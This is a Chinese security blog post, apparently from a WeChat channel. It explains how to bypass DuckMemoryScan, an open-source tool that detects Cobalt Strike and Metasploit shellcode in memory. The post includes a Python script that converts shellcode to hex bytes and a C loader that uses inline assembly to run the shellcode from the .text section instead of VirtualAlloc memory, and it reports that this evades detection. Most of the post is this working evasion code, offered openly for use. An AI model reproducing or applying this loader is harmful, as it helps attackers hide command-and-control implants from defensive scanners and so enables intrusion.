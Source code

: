 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/1L1FcCYTXvdxPUSTi28FvQ)

 昨天的事，谢谢各位师傅们了，所以写了该文来感谢各位师傅。而且今天是元宵节，祝大家元宵节快乐哦。

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08XULy3r8UIuBzNV27fQOMmGPUXeAZicnsryn4B4V66iaE4ykFcgOMcv4cZpzFF2c9jvu7WT0fs8zteQ/640?wx_fmt=png)

昨天，Github 上出现了一个针对 CS 与 MSF 的内存扫描项目名叫 DuckMemoryScan 地址为：https://github.com/huoji120/DuckMemoryScan

根据该项目的介绍：

1.  HWBP hook 检测 检测线程中所有疑似被 hwbp 隐形挂钩
    
2.  内存免杀 shellcode 检测 (metasploit,Cobaltstrike 完全检测)
    
3.  可疑进程检测 (主要针对有逃避性质的进程 [如过期签名与多各可执行区段])
    
4.  无文件落地木马检测 (检测所有已知内存加载木马)
    
5.  简易 rootkit 检测 (检测证书过期 / 拦截读取 / 证书无效的驱动)
    

也就是类似于之前的 CobaltStrikeScan 之类的工具，我们来看一下如何绕过它。

首先拿了一个我之前的免杀马做测试，发现成功的检测出来了，毕竟项目介绍中也写到了会对 "VirtualAlloc" 函数进行检测。

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08XULy3r8UIuBzNV27fQOMmG5AsBR1YK68h6BkroQpKPUJQPdWDZ8MficE6Siahm961iauMG7tt2dJW8w/640?wx_fmt=png)

那么我们就可以来想其他办法来操作了，项目介绍中说 但大部分普通程序均不会在 VirtualAlloc 区域内执行代码. 一般都是在. text 区段内执行代码，那我们在. text 区段内执行代码不就行了嘛。

先使用我们的脚本转换一下 shellcode

```
import binascii
import sys
import re

if __name__ == "__main__":
  
  if len(sys.argv) < 2:
    sys.exit(0)
    
  try:
    data = binascii.b2a_hex(open(sys.argv[1], "rb").read()).decode()
  except:
    print("Error reading %s" % sys.argv[1])
    sys.exit(0)
    
  if "-list" in sys.argv:
    print("0x" + ",0x".join(re.findall("..", data)))
  else:
    print("\\x" + "\\x".join(re.findall("..", data)))
```

然后加载：

```
#include <Windows.h>

int main() {
    asm("call code\n\t"
        ".byte {{SHELLCODE}}\n\t" 
        "code:\n\t"
        "ret\n\t");

  return 0;
}
```

成功写入

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08XULy3r8UIuBzNV27fQOMmGvpyiciaBB1cplnv1ibt3e4ciciak0YeRsicwvfKicV8e57LyIpThQJWibqhhXw/640?wx_fmt=png)

成功绕过检测。

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08XULy3r8UIuBzNV27fQOMmGqtrQiaA02tq2ibuSCLROy7uHib4AVibBZiadZ2cK29ic20fU9qB1WxhDE0EA/640?wx_fmt=png)

当然方法还有很多，就看各位师傅发挥了 (ps：每次检测这个程序都会检测出来微信，不明觉厉，23333)

     ▼

更多精彩推荐，请关注我们

▼

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08XZjHeWkA6jN4ScHYyWRlpHPPgib1gYwMYGnDWRCQLbibiabBTc7Nch96m7jwN4PO4178phshVicWjiaeA/640?wx_fmt=png)